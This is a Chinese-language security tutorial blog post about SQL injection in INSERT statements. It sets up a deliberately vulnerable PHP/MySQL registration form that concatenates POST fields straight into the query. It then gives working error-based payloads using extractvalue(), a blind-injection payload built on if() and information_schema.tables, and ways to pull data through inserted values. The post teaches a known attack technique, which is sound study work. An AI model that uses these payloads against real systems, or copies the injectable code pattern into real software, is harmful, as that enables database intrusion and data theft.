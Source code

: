 ```yaml
---
title: insert 注入
tags:
  - Web
  - 注入
category: [渗透测试,Web安全,SQL注入]
abbrlink: 7e490dd2
date: 2017-05-09 22:42:34
---
```

## 0x00 前言
我们最常见的注入就是在查询中注入，那你有没有遇到过插入的时候也能注入。插入中最常见的就是注册用户或者撰写文章。当然，注册用户的时候可能会考虑去数据库查询下有没有这个人，这涉及到查询时候的注入，我们今天忽略这种注入。
<!--more-->
## 0x01 例子
下面我给出一个简单的例子，基于php+mysql的。方便实验
```mysql
create database sqli;
use sqli;
create table user(
name varchar(40),
email  varchar(20),
qq varchar(20)
);
```
<!-- more -->
```php
前端
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
<title>Examples</title>
<meta name="description" content="">
<meta name="keywords" content="">
<link href="" rel="stylesheet">
</head>
<body>
   <form action="register.php" method="post">
        Name: <input type="text" name="name" />
        Email: <input type="text" name="email" />
        QQ: <input type="text" name="qq" />
        <input type="submit" />
    </form>

   </form> 
</body>
</html>
```
```php
后端
<?php
/**
 * 
 * @authors daiker
 * @date    2017-05-09 20:08:53
 * @version $Id$
 */
$conn=mysql_connect('127.0.0.1', 'root', 'root');
if(!$conn){
    die("mysql connect error");
}
mysql_select_db("sqli",$conn);

$sql="insert into user(name,email,qq) values ('$_POST[name]','$_POST[email]','$_POST[qq]')";


$result=mysql_query($sql,$conn);
print_r(mysql_error());
if(!$result){
    die("error");
}

echo "Yes";
?>
```

效果

![图片.png](http://upload-images.jianshu.io/upload_images/5443560-e0ee8fd70dd992ae.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

## 0x02分析注入
我们常见的注入有4种
- 报错注入
- 联合查询
- 盲注
- 堆叠查询
联合查询前后都要`SELECT`,排除
堆叠查询，mysql不支持排除，那就只剩下报错注入和盲注。
报错注入条件比较苛刻，需要显示报错信息.

## 0x03报错注入
报错注入条件比较苛刻，需要显示报错信息.
报错注入，那就要能报错，可以用`floor()`,`updatexml()`,`extractvalue()`。
这里以`extractvalue()`为例
首先闭合，有两种方法,内联式和注释法
内联式的话,就是加and '1'='1来闭合后面的引号
注释式的话，就是够着1','','')#这样的语句
然后利用extractvalue报错

```
name=ee' and extractvalue(1,' ') and '1'='1 &email=aa&qq=aa
```

报错了

```
XPATH syntax error: ''
```

然后修改`extractvalue()的第二个值以此提取数据

```
name=ee' and extractvalue(1,concat(0x5e5e5e,database(),0x5e5e5e)) and '1'='1 &email=aa&qq=aa
```

0x5e5e5e据^^^为方便观看
爆出数据库

```
XPATH syntax error: '^^^sqli^^^'
```


## 0x04 盲注

实验前删除上面语句的`print_r(mysql_error());`

因为报错注入要求必须报错，但是一旦不显示错误，就比较困难了。
如果是布尔型盲注，关键是让返回的结果不一样，也就是让语句不能正确执行，这里的话，我利用if((1=1),a,b)，a和b会导致整个语句返回的结果不同，那我们执行的语句不久可以放在(1=1)这里，但是怎么构造呢?
最开始想的是用报错注入那几个函数,比如`extractvalue`，但是无论如何都不能执行，后来本地调试了一下

![图片.png](http://upload-images.jianshu.io/upload_images/5443560-23d1f214772355dc.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
大致可以推出if语句后面两个参数都是会执行的，不管有没有被选中，但是谁被选中，就把执行的结果返回。
后来讲过大佬点拨，发现了一个语句。

```
select 1 from information_schema.tables
```

这个语句的话执行是不会报错的

![图片.png](http://upload-images.jianshu.io/upload_images/5443560-542b9c8dc59abf8b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
但是注意看图，会发现，他返回的结果特别多。没错，就是这一点，
多行结果跟1 and 会报错。

![图片.png](http://upload-images.jianshu.io/upload_images/5443560-0d199c72402c0b3f.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
最后构造语句

```
name=ee' and if((A),1,(select 1 from information_schema.tables)) &email=aa&qq=a
```

其中A是我们自己构造的语句，参见盲注的文章自己构造

但是有一点必须强调，这样的后果就是数据库会残留下大量语句。尽量不要用这招

## 0x05 在插入数据可以查询的情况下

```mysql
mysql> insert into user values('daiker','t@qq.com',user());
Query OK, 1 row affected (0.00 sec)

mysql> select * from user;
+--------+----------+----------------+
| name   | email    | qq             |
+--------+----------+----------------+
| daiker | t@qq.com | root@localhost |
+--------+----------+----------------+
1 row in set (0.00 sec)
```
当然有时候可能插入点是整型的，可以这样
```mysql
mysql> insert into user values('daiker','t@qq.com',0|hex(substr('daiker666',1,1)));
Query OK, 1 row affected (0.00 sec)

mysql> select * from user;
+--------+----------+----------------+
| name   | email    | qq             |
+--------+----------+----------------+
| daiker | t@qq.com | root@localhost |
| daiker | t@qq.com | 64             |
+--------+----------+----------------+
2 rows in set (0.00 sec)
```
通过substr,mid，left之类的一个个提取出来。然后再转为16进制，跟0或。
